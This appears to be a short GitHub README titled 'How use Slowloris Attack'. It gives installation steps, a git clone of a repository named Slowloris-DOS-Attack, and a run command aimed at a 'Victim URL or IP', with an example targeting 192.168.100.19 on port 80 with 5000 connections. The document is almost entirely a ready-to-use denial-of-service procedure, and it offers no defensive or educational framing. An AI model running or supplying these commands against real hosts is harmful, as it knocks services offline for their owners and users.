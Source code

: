 **How use Slowloris Attack**

Requirements:
- sudo apt-get update  
- sudo apt-get install perl
- sudo apt-get install libwww-mechanize-shell-perl
- sudo apt-get install perl-mechanize

Get Slowloris File:
```
1) Open Terminal
   $> cd /home
2) Download file slowloris.pl
   # $home/ git clone https://github.com/Amarudin2019/Slowloris-DOS-Attack.git
3) Choose the directory where the file slowloris.pl was downloaded
   # $home/ cd Slowloris-DOS-Attack
4) Run application
   # $home/Slowloris-DOS-Attack/ perl slowloris.pl -dns (Victim URL or IP) -options
   Example:
   # $home/Slowloris-DOS-Attack/ perl slowloris.pl -dns 192.168.100.19 -port 80 -timeout 20 -num 5000 -cache
```
Done
